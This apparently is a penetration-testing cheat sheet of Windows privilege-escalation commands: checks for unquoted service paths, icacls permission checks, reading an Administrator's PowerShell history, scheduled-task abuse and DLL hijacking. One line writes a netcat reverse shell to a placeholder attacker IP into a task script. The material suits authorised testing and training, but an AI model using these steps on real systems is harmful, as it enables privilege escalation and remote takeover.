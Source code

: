 ```
Get-UnquotedService
```

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartName,StartMode | Select-String "C:\\\\Windows" -NotMatch | Select-String '"' -NotMatch

# Excludes Windows Services and ones enclosed in quotes
wmic service get name,pathname,startname |  findstr /i /v "C:\\Windows\\\\" | findstr /i /v """
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

Stop-Service GammaService
Start-Service GammaService

icacls "C:\\"
icacls "C:\\Program Files\\"
icacls "C:\\Program Files\\Enterprise Apps"
```

### PowerShell history
```
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


### Scheduled Tasks

```
Get-ScheduledTask | select taskname,state,author,taskpath,uri,@{ n = 'UserId'; e = { $_.principal.userid}} 

schtasks /query /fo list /v 
schtasks /query /tn <task> /fo list /v 
schtasks /query /tn <task> /XML

icacls c:\tasks\schtask.bat

echo c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> <PORT> > C:\tasks\schtask.bat 
schtasks /run /tn vulntask 
Start-ScheduledTask -TaskName "vulntask"
```

### DLL Hijacking

```
Find-ProcessDLLHijack               -   finds potential DLL hijacking opportunities for currently running processes

Find-PathDLLHijack                  -   finds service %PATH% DLL hijacking opportunities

Write-HijackDll                     -   writes out a hijackable DLL
```

